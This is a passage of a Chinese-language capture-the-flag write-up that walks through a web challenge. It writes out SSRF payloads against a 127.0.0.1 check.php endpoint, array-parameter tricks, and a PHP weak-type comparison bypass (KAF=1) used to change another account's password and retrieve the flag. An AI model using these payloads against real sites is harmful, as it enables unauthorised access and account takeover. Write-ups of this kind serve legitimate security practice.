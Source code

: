 ```py
find_md5('9331c',0,5)
```
尝试构造payload:
`check_http://127.0.0.1/check.php?file=./flag&a=1[]&b=2[]&c=3[]&d=4[]&e=1916798`
回显：
`危险操作！只能饿饿饿饿饿势力操作！`
结合题目名字我们猜测还有个账号名称是`eeeeeshili`，尝试修改密码，发现失败，抓包，在`http://ctf.mardle.cn:35447/check.php?file=./modify&account=eeeeeshili&password=123`的相应中看到一段base64编码，解码后得到：
```php
$client_ip = $_SERVER["REMOTE_ADDR"];
$server_ip = $_SERVER["SERVER_ADDR"];
if ($client_ip === $server_ip) {
    if ($_GET["KAF"] !== "1a" && (int)$_GET["KAF"] == "1a"){
        ...
    }
} else {
   	echo 'xxx'
    echo '<script>alert("坏蛋改不了一点密码！");</script>';
    die();
}
```
同样的ssrf，此处KAF用弱类型比较绕过即可，构造`KAF=1`比较时会被视为`bool`类型`True`。构造payload本地访问：
`http://127.0.0.1?file=./modify&account=eeeeeshili&password=123&KAF=1`
成功修改密码，再按照之上构造一次:
`check_http://127.0.0.1/check.php?file=./flag&a[]=1&b[]=2&c[]=3&d[]=4&e=1916798`
访问`./ffflllaaaggg.php`即可。

## filechecker_revenge(暂未完成)

寒假有时间再复现，未完待续......